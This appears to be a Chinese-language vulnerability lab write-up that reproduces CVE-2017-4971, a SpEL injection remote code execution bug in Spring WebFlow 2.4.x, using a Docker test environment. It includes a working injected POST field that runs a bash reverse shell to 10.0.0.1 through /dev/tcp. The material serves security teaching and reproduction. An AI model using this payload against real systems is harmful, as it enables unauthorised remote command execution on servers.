





# Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 测试环境

运行测试环境：

```
docker-compose up -d
```

等待环境启动后，访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。

## 漏洞复现

首先访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：



然后访问id为1的酒店`http://your-ip:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实WebFlow就正式开始了）：



再点击确认“Confirm”：



此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```



（注意：别忘记URL编码）

成功执行，获得shell：


